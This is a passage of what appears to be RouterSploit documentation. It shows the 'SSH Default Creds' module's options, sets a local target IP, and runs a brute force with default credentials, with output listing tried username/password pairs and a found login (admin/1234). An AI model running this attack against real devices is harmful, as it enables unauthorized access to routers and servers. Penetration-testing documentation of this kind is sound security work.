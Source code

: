     rsf (SSH Default Creds) > show options

    Target options:

       Name       Current settings     Description           
       ----       ----------------     -----------           
       target                          Target IP address     
       port       22                   Target port           


    Module options:

       Name         Current settings                                                      Description                                              
       ----         ----------------                                                      -----------                                              
       threads      8                                                                     Numbers of threads                                       
       defaults     file:///root/git/routersploit/routersploit/wordlists/defaults.txt     User:Pass or file with default credentials (file://)


Set target:

    rsf (SSH Default Creds) > set target 192.168.1.53
    [+] {'target': '192.168.1.53'}


### Run module

    rsf (SSH Default Creds) > run
    [*] Running module...
    [*] worker-0 process is starting...
    [*] worker-1 process is starting...
    [*] worker-2 process is starting...
    [*] worker-3 process is starting...
    [*] worker-4 process is starting...
    [*] worker-5 process is starting...
    [*] worker-6 process is starting...
    [*] worker-7 process is starting...
    [-] worker-4 Authentication failed. Username: '3comcso' Password: 'RIP000'
    [-] worker-1 Authentication failed. Username: '1234' Password: '1234'
    [-] worker-0 Authentication failed. Username: '1111' Password: '1111'
    [-] worker-7 Authentication failed. Username: 'ADVMAIL' Password: 'HP'
    [-] worker-3 Authentication failed. Username: '266344' Password: '266344'
    [-] worker-2 Authentication failed. Username: '1502' Password: '1502'

    (..)

    Elapsed time:  38.9181981087 seconds
    [+] Credentials found!

    Login     Password     
    -----     --------     
    admin     1234         

    rsf (SSH Default Creds) >

## 3. Scanners
